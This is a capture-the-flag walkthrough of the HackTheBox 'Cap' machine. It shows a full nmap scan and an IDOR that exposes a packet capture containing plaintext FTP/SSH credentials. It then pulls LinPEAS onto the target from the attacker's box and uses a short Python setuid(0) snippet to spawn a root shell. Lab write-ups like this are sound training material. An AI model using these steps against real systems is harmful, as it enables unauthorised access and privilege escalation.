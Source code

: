 #  HackTheBox — Cap Walkthrough

## 🧭 Enumeration

We'll begin by scanning all ports using `Nmap`. You can also use `rustscan` if you wish to speed up the process.

###  Full TCP Nmap Scan

```bash
nmap -T4 -A -p- 10.10.10.245
```

```bash
Nmap scan report for 10.10.10.245
Host is up (0.26s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp   open  http       Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
8888/tcp open  tcpwrapped
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   256.02 ms 10.10.14.1
2   256.16 ms 10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 793.62 seconds
```


FTP(21), SSH(22), HTTP(80) ports are open on this machine,
lets check out the HTTP service 


![Screenshot From 2025-06-11 16-11-08](https://github.com/user-attachments/assets/a8bb77a8-3004-4b03-a818-d1bec41fade2)

## IDOR
In the security snapshot section, we notice that the value of the `/data/id` increments everytime, this could mean we are able to view packet captures of other users. This is known as Insecure Direct Object Reference (IDOR), wherein a user can 
access data owned by another user

![Screenshot From 2025-06-11 16-14-56](https://github.com/user-attachments/assets/0d9bd8ad-458d-4bea-889c-0b84c9fb5401)


I tried `/data/0` and found multiple packets 

![Screenshot From 2025-06-11 16-18-32](https://github.com/user-attachments/assets/4a0044f5-8915-4369-9028-6ff4b29cc9b8)

We shall download the 0.pcap file and analyse it using wireshark

![Screenshot From 2025-06-11 16-21-11](https://github.com/user-attachments/assets/9837909f-a78b-42bc-bf0a-8cf888abd89e)

This part looks interesting, It seems to be a password to either FTP or SSH services
```bash
username: nathan
password: Buck3tH4TF0RM3!
```

I used the credentials for FTP and it worked!

![Screenshot From 2025-06-11 16-24-59](https://github.com/user-attachments/assets/098a17ec-46f3-4d1b-a4cf-35a0d680c966)

It worked for SSH as well

![Screenshot From 2025-06-11 16-28-11](https://github.com/user-attachments/assets/3dacc215-eddb-478f-a476-390b34a851fe)

now we have a shell in the system : D

![Screenshot From 2025-06-11 16-30-33](https://github.com/user-attachments/assets/e3cd4816-c596-4e83-9606-2b3144fe8a2b)

the user flag in user.txt is in plain sight


## 💂 Privelege Escalation

We shall use LinPeas.sh to escalate priveleges in this machine and gain root access, but LinPeas is not provided in the machine, hence I shall host it using a python http server on my Kali box and simply `cURL` it in the machine


![Screenshot From 2025-06-11 16-37-16](https://github.com/user-attachments/assets/d3306b3d-3b81-4c75-ae63-69f455da1bb6)

Now we can `curl` it to the machine !

![Screenshot From 2025-06-11 16-37-01](https://github.com/user-attachments/assets/dad6016b-0271-4f7a-914e-7ac92e0f7ad8)

we take a look at the "Files with capabilities" section of the linpeas output and find this

![Screenshot From 2025-06-11 16-42-35](https://github.com/user-attachments/assets/cb178f31-14c6-4403-a5da-6b821d0b0c44)

![Screenshot From 2025-06-11 16-46-07](https://github.com/user-attachments/assets/b4979a1d-99ae-4207-9d68-569c2fa4325b)

This lets us change UID to 0 i.e root

we run the python script with the following code:
``` bash
import os
os.setuid(0)
os.system("/bin/bash")
```
![Screenshot From 2025-06-11 16-49-26](https://github.com/user-attachments/assets/7c7e46ac-54e1-4284-a7c1-1fe61fe4a423)

Now that we've gained root access, we shall move to the root directory and find the root flag!

![Screenshot From 2025-06-11 16-52-12](https://github.com/user-attachments/assets/c6a123ef-92f5-4ea1-ae1d-2a4e3998e777)


Happy Hacking!!!
                                                              
